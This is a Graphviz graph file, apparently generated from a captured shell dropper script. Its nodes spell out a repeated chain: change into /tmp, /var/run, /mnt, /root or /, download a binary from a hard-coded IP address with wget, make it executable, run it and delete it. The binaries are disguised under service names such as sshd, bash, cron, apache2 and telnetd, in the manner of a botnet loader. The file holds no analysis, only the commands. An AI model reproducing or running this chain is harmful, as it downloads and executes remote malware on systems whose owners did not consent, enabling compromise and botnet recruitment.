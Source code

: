 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://45.76.60.22/DoPentpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x DoPentpd "];
12 -> 14 [label=";,"];
14 [label="./DoPentpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf DoPentpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://45.76.60.22/DoPesshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x DoPesshd "];
30 -> 32 [label=";,"];
32 [label="./DoPesshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf DoPesshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://45.76.60.22/DoPeopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x DoPeopenssh "];
48 -> 50 [label=";,"];
50 [label="./DoPeopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf DoPeopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://45.76.60.22/DoPebash "];
64 -> 66 [label=";,"];
66 [label="chmod +x DoPebash "];
66 -> 68 [label=";,"];
68 [label="./DoPebash "];
68 -> 70 [label=";,"];
70 [label="rm -rf DoPebash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://45.76.60.22/DoPetftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x DoPetftp "];
84 -> 86 [label=";,"];
86 [label="./DoPetftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf DoPetftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://45.76.60.22/DoPewget "];
100 -> 102 [label=";,"];
102 [label="chmod +x DoPewget "];
102 -> 104 [label=";,"];
104 [label="./DoPewget "];
104 -> 106 [label=";,"];
106 [label="rm -rf DoPewget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://45.76.60.22/DoPecron "];
118 -> 120 [label=";,"];
120 [label="chmod +x DoPecron "];
120 -> 122 [label=";,"];
122 [label="./DoPecron "];
122 -> 124 [label=";,"];
124 [label="rm -rf DoPecron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://45.76.60.22/DoPeftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x DoPeftp "];
138 -> 140 [label=";,"];
140 [label="./DoPeftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf DoPeftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://45.76.60.22/DoPepftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x DoPepftp "];
156 -> 158 [label=";,"];
158 [label="./DoPepftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf DoPepftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://45.76.60.22/DoPesh "];
172 -> 174 [label=";,"];
174 [label="chmod +x DoPesh "];
174 -> 176 [label=";,"];
176 [label="./DoPesh "];
176 -> 178 [label=";,"];
178 [label="rm -rf DoPesh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://45.76.60.22/DoPeshit "];
190 -> 192 [label=";,"];
192 [label="chmod +x DoPeshit "];
192 -> 194 [label=";,"];
194 [label="./DoPeshit "];
194 -> 196 [label=";,"];
196 [label="rm -rf DoPeshit "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://45.76.60.22/DoPeapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x DoPeapache2 "];
210 -> 212 [label=";,"];
212 [label="./DoPeapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf DoPeapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://45.76.60.22/DoPetelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x DoPetelnetd "];
228 -> 230 [label=";,"];
230 [label="./DoPetelnetd "];
230 -> 231 [label=";,"];
}
